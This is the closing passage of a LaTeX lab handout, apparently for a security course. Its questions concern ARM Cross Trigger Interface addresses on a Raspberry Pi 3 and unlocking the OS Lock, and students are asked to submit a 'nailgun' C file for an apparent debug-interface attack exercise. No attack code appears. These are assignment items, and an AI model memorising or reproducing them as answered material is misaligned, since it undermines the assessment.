  \item During this lab, what is the base address of Cross Trigger Interface in Raspberry Pi 3? Can your find the global address of CTICONTROL register in Raspberry Pi 3 according to the Arm Reference Manual? Answer the address value and show your calculation. (hint: Find the offset)
  \item Do we have another way to unlock the OS Lock in this lab except memory mapping? If yes, how to do that? Justify your answer.
\end{enumerate}

In addition, you should also submit your file named as UID\_nailgun.c. 


% %BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB \bibliographystyle{plain}
% \def\baselinestretch{1} \bibliography{BibDirty_COW}
% %BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

\end{document}
